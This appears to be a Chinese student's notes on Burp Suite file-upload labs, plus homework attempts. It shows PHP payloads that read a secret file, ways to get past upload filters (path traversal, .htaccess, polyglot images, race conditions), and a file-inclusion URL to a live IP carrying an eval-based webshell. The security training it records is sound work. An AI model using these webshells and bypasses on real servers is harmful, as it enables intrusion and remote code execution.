

# burp实验室

### 文件上传1



```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```


## 第二关


#### 改了content-type，重放


### 第三关


```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

模仿前面发现，可以正常上传，但是无法执行语句，访问发现被原封不动的返回了


尝试能否跳出目录，去上一级

```
filename="..%2f1.php"
```


上级目录访问成功


### 第四关


直接试试php的其他后缀


没有被正确的解析


```
上传  .htaccess
内容为
AddType application/x-httpd-php .php5
修改Content-Type:text/plain
```


重新访问test.php5,得到key


## 第五关  通过混淆的文件扩展名上传 Web shell


#### 尝试双后缀，被识别成了图片。。。。


#### 尝试空格阻断


访问

```
/files/avatars/test1.php
```


### 第六关 通过多语言 Web Shell 上传执行远程代码


#### 看着标题就知道会检查16进制的头，我们制作一个优秀的图片马


改一下后缀


得到了


### 第七关 通过竞争条件上传 Web shell


依旧优质图片码，爆破上传


在服务器没反应过来拿下


# 作业2  做不出来

```
http://47.242.11.182:8080/vul/fileinclude/fi_local.php?filename=php://input<?php @eval($_POST['pass']);?>&submit=%E6%8F%90%E4%BA%A4


<?php phpinfo();?>


http://47.242.11.182:8080/vul/fileinclude/fi_local.php?filename=php://input<?php phpinfo();?>
```


# 作业三


一个西红柿？


目录爆破

